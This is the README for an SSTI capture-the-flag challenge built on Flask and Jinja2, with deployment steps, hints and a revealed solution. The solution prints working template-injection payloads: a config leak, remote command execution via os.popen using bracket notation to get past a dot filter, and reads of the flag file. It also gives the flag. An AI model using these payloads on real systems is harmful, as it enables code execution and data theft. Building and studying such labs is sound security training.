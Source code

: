 # SSTI CTF Challenge

A Server-Side Template Injection (SSTI) challenge created with Flask and Jinja2 templates.

## Challenge Description

This challenge involves a simple messaging service that contains a Server-Side Template Injection vulnerability. Your goal is to exploit this vulnerability to retrieve the hidden flag.

## Deployment Instructions

### Using Docker Compose (Recommended)

1. Make sure you have Docker and Docker Compose installed.
2. Run the following command to build and start the container:

```
docker-compose up -d
```

3. Access the challenge at `http://localhost:5000`

### Manual Setup

1. Install the required Python packages:

```
pip install -r requirements.txt
```

2. Run the Flask application:

```
python app/app.py
```

3. Access the challenge at `http://localhost:5000`

## Challenge Hints

1. The messaging service doesn't properly sanitize the input.
2. Jinja2 templates can execute Python code under certain conditions.
3. The admin page contains the flag, but how can you access it without directly visiting the page?
4. The application blocks the dot character ('.'), so you must use bracket notation (e.g. foo['bar']) instead of dot notation.

## Solution

<details>
<summary>Click to reveal solution</summary>

This challenge involves a Server-Side Template Injection vulnerability.

1. Go to the "Leave a Message" page
2. In the name field, instead of entering a normal name, enter Jinja2 template code such as:

   - `{{7*7}}` - This should render as 49 if the SSTI vulnerability exists
   - `{{config}}` - To see the Flask configuration
   - `{{config.items()}}` - To see the configuration as key-value pairs
   - More advanced payloads can give you remote code execution: `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`
   - Or to directly get the part 1/2 of the flag: `{{request['application']['__globals__']['__builtins__']['__import__']('app')['__dict__']['FLAG']}}`
   - Then get the 2/2 of the flag: `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag*')['read']()}}`. We use wildcard `*` to bypass blacklisted dot `.`.

3. The flag is: `ETHACK{es_es_ti_ai_ahayahay}`
</details>

